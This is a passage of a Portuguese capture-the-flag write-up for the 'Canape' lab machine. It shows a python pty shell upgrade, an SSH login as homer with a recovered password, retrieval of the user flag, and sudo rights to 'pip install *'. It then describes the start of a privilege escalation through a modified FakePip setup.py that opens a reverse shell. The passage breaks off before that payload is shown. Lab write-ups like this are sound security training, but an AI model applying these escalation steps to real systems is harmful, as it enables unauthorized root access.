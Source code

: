 O primeiro, 'ssh', com seu password pareceu sedutor. Então tentei logar com o usuário homer e esse password.

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@canape:/$ ssh homer@localhost -p 65535
ssh homer@localhost -p 65535
Could not create directory '/var/www/.ssh'.
The authenticity of host '[localhost]:65535 ([127.0.0.1]:65535)' can't be established.
ECDSA key fingerprint is SHA256:ojMYU5Q6ljmXdvYjbNF4D1mA5ndrq8D8dkMLx4Bs1cs.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
homer@localhost's password: 0B4jyA0xtytZi7esBNGp

Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Sep 14 19:45:48 2018 from 10.10.16.244
homer@canape:~$
```

Virei homer! Hora de pegar essa flag suada.

```
homer@canape:~$ pwd
pwd
/home/homer
homer@canape:~$ ls
ls
bin  data  erts-7.3  etc  lib  LICENSE  releases  share  user.txt  var
homer@canape:~$ cat user.txt
cat user.txt
bce918696f293e62b2321703bb27288d
```

Obter root não foi tão demorado quanto foi para conseguir a primeira flag, o primeiro passo foi pegar os privilégios sudo do homer.

```
homer@canape:~$ sudo -l
sudo -l
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp

Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

Uma pesquisa rápida por "pip privelege escalation" me trouxe isso: [https://github.com/0x00-0x00/FakePip](https://github.com/0x00-0x00/FakePip). É óbvio que rodar algo que execute comandos não deve ser rodado como root. A não ser que você deseje isso.
Logo baixei o setup.py para meu computador, modifiquei para inserir o meu ip e porta para a shell reversa, subi o SimpleHttpServer para hospedar o setup.py e, da máquina invadida, mandei um wget:
